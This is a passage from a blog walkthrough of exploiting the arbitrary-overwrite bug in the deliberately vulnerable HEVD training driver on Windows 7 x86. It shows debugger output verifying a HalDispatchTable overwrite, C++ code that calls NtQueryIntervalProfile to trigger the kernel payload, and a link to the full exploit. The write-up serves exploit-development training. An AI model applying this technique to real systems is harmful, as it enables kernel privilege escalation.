 Ok good, we passed a pointer to the payload as expected. Let's verify the "where" part.

```
kd> ln 0x82966434
Browse module
Set bu breakpoint

(82966430)   nt!HalDispatchTable+0x4   |  (8296648c)   nt!BuiltinCallbackReg
```

`Where` points to `nt!HalDispatchTable+0x4` as expected, cool.

```
kd> p
HEVD!TriggerArbitraryOverwrite+0x63:
93d71b6b mov     dword ptr [ebx],eax
kd> p
HEVD!TriggerArbitraryOverwrite+0x65:
93d71b6d jmp     HEVD!TriggerArbitraryOverwrite+0x8b (93d71b93)
kd> dd HalDispatchTable
0052c430  00000004 006b7aaf 006b7ac3 006b7ad7
0052c440  00000000 004015ba 00578507 006b73d8
0052c450  006b7683 004d8959 00519757 00519757
0052c460  004d8966 004d8977 00000000 006b8de7
0052c470  006b7aff 004d898b 004d8aa1 006b7b11
0052c480  004d8aa1 00000000 00000000 0044ec8c
0052c490  006b4d7f 00000000 0044ec9c 0056fc1c
0052c4a0  00000000 0044ecac 006b4f77 00000000
```

---

### 4. Triggering the payload

Like explained earlier, we need to call `NtQueryIntervalProfile` which address can be resolved from `ntdll.dll`.

```cpp
// Trigger the payload by calling NtQueryIntervalProfile()
HMODULE ntdll = GetModuleHandle("ntdll");
PtrNtQueryIntervalProfile _NtQueryIntervalProfile =(PtrNtQueryIntervalProfile)GetProcAddress(ntdll,"NtQueryIntervalProfile");
if (_NtQueryIntervalProfile == NULL)
{
	printf("[-] Failed to get address of NtQueryIntervalProfile.\n");
	exit(-1);
}
ULONG whatever;
_NtQueryIntervalProfile(2, &whatever);
```

![snip]({{ "/images/kernel7.png" | absolute_url }})

---

Full code to exploit [here](https://github.com/abatchy17/HEVD-Exploits/tree/master/ArbitraryOverwrite/Win7_x86_SP1).

\- Abatchy